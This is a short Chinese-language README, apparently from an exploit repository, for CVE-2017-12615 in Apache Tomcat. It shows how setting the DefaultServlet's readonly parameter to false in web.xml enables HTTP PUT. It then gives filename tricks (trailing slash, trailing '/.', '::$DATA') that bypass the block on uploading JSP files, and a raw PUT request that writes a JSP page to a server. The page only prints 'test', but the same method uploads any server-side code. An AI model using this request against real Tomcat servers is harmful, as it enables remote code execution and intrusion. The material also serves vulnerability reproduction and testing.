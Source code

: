 # CVE-2017-12615
打开tomcat下conf\web.xml文件
找到
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>

```
添加`readonly`为false
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
		<init-param>   
            <param-name>readonly</param-name>   
            <param-value>false</param-value>   
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>

```

不能直接put jsp或者jspx文件
在windows下可以用`test.jsp/`、`test.jsp/.`、`test.jsp::$DATA`来绕过
经过测试，最新版[apache-tomcat-7.0.81](http://tomcat.apache.org/download-70.cgi)可以用`test.jsp/`、`test.jsp/.`来绕过

```
PUT /test.jsp/ HTTP/1.1
Host: 192.168.135.132:8080
Content-Length: 25

<%out.println("test");%>

```
![最新版利用](https://raw.githubusercontent.com/fupinglee/MyPython/master/exploit/CVE-2017-12615/tomcat-7.0.81.jpg)